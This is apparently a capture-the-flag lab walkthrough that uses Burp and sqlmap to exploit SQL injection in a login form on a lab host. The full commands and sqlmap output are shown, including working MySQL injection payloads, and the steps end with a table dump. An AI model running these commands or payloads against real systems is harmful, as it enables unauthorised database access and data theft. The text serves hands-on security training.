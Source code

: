 
We want hack logn page using ***Post Method*** :

![image](https://github.com/4bo4yman/T00LS/assets/156849852/badd9c58-5474-4276-b686-cffa32ce1a23)

We use burp tool to repeater request.

![image](https://github.com/4bo4yman/T00LS/assets/156849852/ef8f2c6d-1f49-4cc4-abec-7b79499d9c45)


Then save to file as **req.txt**

Let's use sqlmap tool with file req.txt

this command for find name of database:

```
sqlmap -r req.txt --current-db
```

this result:

```
4bo@4yman:~/Desktop# sqlmap -r req.txt --current-db
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.2.4#stable}
|_ -| . [,]     | .'| . |          #4bo
|___|_  [.]_|_|_|__,|  _|          #4yman
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 01:36:06

[01:36:06] [INFO] parsing HTTP request from 'req.txt'
[01:36:06] [INFO] resuming back-end DBMS 'mysql' 
[01:36:06] [INFO] testing connection to the target URL
sqlmap got a 302 redirect to 'http://10.10.29.225:80/blood/login.php?error=true'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: password (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: username=moha&password=-5272' OR 1103=1103#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=moha&password=moha' OR (SELECT 9202 FROM(SELECT COUNT(*),CONCAT(0x716b6b7071,(SELECT (ELT(9202=9202,1))),0x717a766b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- YqOg

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=moha&password=moha' OR SLEEP(5)-- jGge

Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: username=-2483' OR 3680=3680#&password=moha

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=moha' OR (SELECT 2202 FROM(SELECT COUNT(*),CONCAT(0x716b6b7071,(SELECT (ELT(2202=2202,1))),0x717a766b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- KBvK&password=moha

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=moha' OR SLEEP(5)-- BLEx&password=moha
---
there were multiple injection points, please select the one to use for following injections:
[0] place: POST, parameter: username, type: Single quoted string (default)
[1] place: POST, parameter: password, type: Single quoted string
[q] Quit
> 0
[01:36:12] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx
back-end DBMS: MySQL 5
[01:36:12] [INFO] fetching current database
[01:36:12] [INFO] resumed: blood
current database:    'blood'
[01:36:12] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.29.225'

[*] shutting down at 01:36:12
```

![image](https://github.com/4bo4yman/T00LS/assets/156849852/b2fa0734-536a-4cb1-b025-905c0ce6e0db)

Who is the current db user?

Then we find name of user we can use this command:

```
sqlmap -r req.txt --current-user
```

![image](https://github.com/4bo4yman/T00LS/assets/156849852/1b8adcd0-916e-40c6-9edf-6969a6c079a7)


Then we find name of tables we can use this command:


```
sqlmap -r req.txt -D blood --tables
```

![image](https://github.com/4bo4yman/T00LS/assets/156849852/52bcb897-c2f2-49e9-8686-e5bfca8ae82f)


Then we find name of columns we can use this command:


```
sqlmap -r req.txt -D blood -T flag --columns
```

![image](https://github.com/4bo4yman/T00LS/assets/156849852/b4b50fbb-5a9c-4949-bf70-a4765bcc233d)


Now we want to find flag to improve the hacking; use this command **--dump**


```
sqlmap -r req.txt -D blood -T flag -C flag --dump
```


![image](https://github.com/4bo4yman/T00LS/assets/156849852/ee83fddb-7e3d-4fec-89d9-843943458b0b)

WOOW! we get the FLAG ;) enjoy your hack


<br>

******
if this content liked you, follow me [Here](https://github.com/4bo4yman) ;) :tada:
*****
